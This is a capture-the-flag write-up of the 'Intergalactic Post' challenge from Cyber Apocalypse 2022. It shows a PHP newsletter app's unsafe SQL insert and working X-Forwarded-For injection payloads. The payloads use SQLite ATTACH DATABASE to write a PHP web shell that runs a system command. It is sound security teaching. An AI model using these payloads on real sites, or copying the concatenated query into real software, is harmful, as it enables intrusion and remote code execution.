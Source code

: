 # Intergalactic Post - Cyber Apocalypse 2022

### Given Material
We have been provided with the source code of a web application working as a newsletter application. 
### Identifying the flaw
We can submit some dummy requests from the web app form to "subscribe" an email.

```JSON
{"POST":{"scheme":"http","host":"localhost:1337","filename":"/subscribe","remote":{"Address":"127.0.0.1:1337"}}}
```
And POST body:
```
email=my@email.com
```

Upon inspecting the code, the part that handles our request is the following:

```php
<?php
class SubscriberModel extends Model
{

    public function __construct()
    {
        parent::__construct();
    }

    public function getSubscriberIP(){
        if (array_key_exists('HTTP_X_FORWARDED_FOR', $_SERVER)){
            return  $_SERVER["HTTP_X_FORWARDED_FOR"];
        }else if (array_key_exists('REMOTE_ADDR', $_SERVER)) {
            return $_SERVER["REMOTE_ADDR"];
        }else if (array_key_exists('HTTP_CLIENT_IP', $_SERVER)) {
            return $_SERVER["HTTP_CLIENT_IP"];
        }
        return '';
    }
    
    public function subscribe($email)
    {
        $ip_address = $this->getSubscriberIP();
        return $this->database->subscribeUser($ip_address, $email);
    }
}
```
The given code that handles the database methods is also:

```php
<?php
class Database
{
    private static $database = null;

    public function __construct($file)
    {
        if (!file_exists($file))
        {
            file_put_contents($file, '');
        }
        $this->db = new SQLite3($file);
        $this->migrate();

        self::$database = $this;
    }

    public static function getDatabase(): Database
    {
        return self::$database;
    }

    public function migrate()
    {
        $this->db->query('
            CREATE TABLE IF NOT EXISTS `subscribers` (
                id INTEGER PRIMARY KEY AUTOINCREMENT,
                ip_address VARCHAR(255) NOT NULL,
                email VARCHAR(255) NOT NULL
            );
        ');
    }

    public function subscribeUser($ip_address, $email)
    {
        return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
    }
}
```

It seems that the email and ip address parameters are not sanitized properly hence we can inject SQL statements. 

### First (failed) attempt
At first, we tried to inject SQL statements at the email parameter but the following filter gets in the way.
```php
 public function store($router)
    {
        $email = $_POST['email'];

        if (empty($email) || !filter_var($email, FILTER_VALIDATE_EMAIL)) {
            header('Location: /?success=false&msg=Please submit a valild email address!');
            exit;
        }

        $subscriber = new SubscriberModel;
        $subscriber->subscribe($email);

        header('Location: /?success=true&msg=Email subscribed successfully!');
        exit;
    }
```
The FILTER_VALIDATE_EMAIL as a php built-in filter, uses the RFC 5321 standard which allows quoted strings and some special characters that could be useful in our injection. However the following working payloads were beyond the character limit the local-part of an email allows so injecting the email field lead to nowhere.

### Working Injection
The only field remaining to try to inject is the IP field. As we saw earlier in the code, the IP field gets filled with values from the php $_SERVER array. Those fields were not validated afterwards hence we can simpy place an HTTP header in our request that looks like the following and inject any given values in the IP field:

```
X-Forwarded-For: DUMMY_FIELD
```

### SQLite3 Injection + php = RCE
We can now execute SQL statements but we still need to read the flag under the /flag.txt path. The golden statement that worked a stepping stone was the following:

```sql
ATTACH DATABASE file_name AS database_name;
```

The statement associates the database file file_name with the current database connection under the logical database name database_name. If the database file file_name does not exist, the statement creates a new database file. We can attach a database with a dummy name and a php file extension under web root. The following header does exactly that and also creates a table for us to inject php code.

```
X-Forwarded-For: ','a');ATTACH DATABASE '/www/x.php' AS x;CREATE TABLE x.p (d text);
```

Finally another request with the following header writes the payload.
```
X-Forwarded-For: ','a');ATTACH DATABASE '/www/x.php' AS x;INSERT INTO x.p (d) VALUES ("<?php system('cat /flag*')?>");
```

Now we just have to visit /x.php with our browser to trigger our code.
